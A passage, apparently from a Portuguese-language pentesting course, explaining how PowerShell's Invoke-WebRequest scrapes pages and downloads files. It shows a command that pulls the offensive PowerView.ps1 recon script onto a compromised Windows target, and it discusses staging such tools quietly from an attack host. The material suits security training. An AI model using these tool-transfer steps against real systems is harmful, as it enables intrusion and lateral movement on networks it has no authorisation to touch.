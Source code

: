 ```powershell
```

Poderíamos esculpir o conteúdo bruto deste site em vez de examinar tudo, desde a solicitação, de uma só vez. Observe o quanto é mais fácil de ler? Como uma maneira rápida de reconhecer um site ou extrair informações importantes, como nomes, endereços e e-mails, não fica muito mais fácil do que isso. Onde o Invoke-WebRequest é útil é sua capacidade de baixar arquivos por meio da CLI. Vamos ver como baixar arquivos agora.

## Baixando arquivos usando PowerShell

Seja executando tarefas de administração de sistema, pentesting ou relacionadas à recuperação de desastres, arquivos de todos os tipos inevitavelmente precisarão ser baixados para um host do Windows. Em um engajamento de pentesting, podemos ter comprometido um alvo e querer transferir ferramentas para aquele host para enumerar o ambiente ainda mais e identificar maneiras de chegar a outros hosts e redes. O PowerShell nos oferece algumas opções integradas para fazer isso. Estaremos focando no Invoke-WebRequest para este módulo, mas entenda que há muitas maneiras diferentes (alguns são para isso que foram feitos, outros não são intencionais pelos criadores da ferramenta) podemos realizar solicitações e downloads da web.

```powershell-session
PS C:\> Invoke-WebRequest -Uri "https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"

PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          6/5/2021   5:10 AM                PerfLogs
d-r---         7/25/2022   7:36 AM                Program Files
d-r---          6/5/2021   7:37 AM                Program Files (x86)
d-r---         7/30/2022  10:21 AM                Users
d-----         7/21/2022  11:28 AM                Windows
-a----         8/10/2022   9:12 AM        7299504 PowerView.ps1
```

Usar o Invoke-WebRequest é simples; especificamos o cmdlet e a URL exata de um recurso que queremos baixar:

`-Uri "https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1"`

Após a URL, especificamos a localização e o nome do arquivo do recurso no sistema Windows do qual estamos baixando:

`-OutFile "C:\PowerView.ps1"`

Também podemos usar o Invoke-WebRequest para baixar arquivos de servidores da Web na rede local ou em uma rede acessível a partir do destino do Windows. É comum encontrar a necessidade de transferir arquivos de nosso host de ataque para um alvo Windows. Um benefício de fazer isso seria se um de nossos objetivos durante um pentest for permanecer o mais furtivo possível, talvez não precisemos gerar solicitações para a Internet que os dispositivos de segurança de rede possam detectar na borda da rede. Se já tivéssemos o PowerView.ps1 armazenado em nosso host de ataque, poderíamos usar um servidor web python simples para hospedar o PowerView.ps1 e baixá-lo do alvo.

